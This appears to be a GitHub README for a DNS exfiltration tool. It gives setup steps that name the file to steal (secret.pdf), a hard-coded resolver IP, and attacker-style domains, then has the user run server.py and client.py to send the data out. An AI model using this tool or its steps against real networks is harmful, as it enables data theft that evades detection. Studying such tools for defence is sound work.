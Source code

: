 # DNS-Exfiltration
Mudik DNS Exfiltration</br>
![image](https://github.com/spatronn/DNS-Exfiltration/assets/27374567/98b43ade-ae4b-4e0f-83cd-d5c48c7e76eb)



<b>Change the parameter according to your environment:</b></br>
//Enter your DNS Resolver (client.py)</br>
dns_server = "3.253.51.115"</br>
//Specify the file you want to exfiltrate instead of secret.pdf (client.py)</br>
with open("secret.pdf", "rb") as pdf_file:</br>
//Define the domain or domains you will use in DNS Exfiltration. (client.py)</br>
domain_list = ["dnsmalwaredaddy.online","laleler-denemeler.top"]</br>


STEP-1</br>
Install requirements</br>
STEP-2</br>
Run server.py on your name server.Make sure that the DNS service is not running on this server.</br>
STEP-3</br>
Modified client.py according to your environment.</br>
STEP-4</br>
Run client.py</br>
